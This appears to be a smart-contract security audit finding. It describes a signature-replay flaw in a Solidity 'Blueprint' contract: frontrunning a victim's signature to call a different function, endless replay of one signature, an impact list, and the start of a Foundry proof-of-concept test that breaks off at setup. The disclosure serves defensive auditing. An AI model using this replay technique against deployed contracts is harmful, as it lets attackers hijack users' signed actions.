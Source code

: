 1. The victim generates a signature for `createProjectIDAndDeploymentRequestWithSig` or any other function of the affected ones  
2. The attacker frontruns the transaction and uses the **same signature** to call another one e.g `createAgentWithTokenWithSig`.  
3. The transaction **unexpectedly succeeds**, creating an agent instead of deploying a project " in this example".  
4. If the user then tries to execute `createProjectIDAndDeploymentRequestWithSig`, it **fails** due to function interdependencies.  
5. The attacker further abuses `updateWorkerDeploymentConfigWithSig`, **reusing the same signature indefinitely** to modify worker deployment configurations without limit.

### Impact

- **Unauthorized Function Calls:** A valid signature for one function can be used for a different function.  
- **Infinite Reuse:** `updateWorkerDeploymentConfigWithSig` allows the **same signature to be replayed endlessly**, leading to unauthorized worker configuration changes.  
- **Transaction Reverts:** If a user calls any of the following functions, the others become **unusable** due to function interdependencies:  
  - `createAgentWithTokenWithSig`  
  - `createAgentWithWhitelistUsersWithSig`  
  - `createProjectIDAndDeploymentRequestWithSig`  
  - `createAgentWithSigWithNFT`  
- **No Revocation Mechanism:** Once a user signs a message, there is no way to **invalidate** or **expire** the signature, making it permanently exploitable.  

### PoC

```solidity 

pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Blueprint} from "../src/Blueprint.sol";
import {stdError} from "forge-std/StdError.sol";
import {MockERC20} from "./MockERC20.sol";

contract BlueprintTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    bytes32 public projectId;
    address public workerAddress;
    address public dummyAddress;

    function setUp() public {
        blueprint = new BlueprintV5();
        blueprint.initialize(); // mimic upgradeable contract deploy behavior

        mockToken = new MockERC20();

        // set crestal wallet address
        blueprint.setFeeCollectionWalletAddress(address(0x7D8be0Dd8915E3511fFDDABDD631812be824f578));

        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2980);
        workerAddress = address(0x4d6585D89F889F29f77fd7Dd71864269BA1B31df);
        dummyAddress = address(0);
    }
    function test_Sig_reply1() public {
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";
```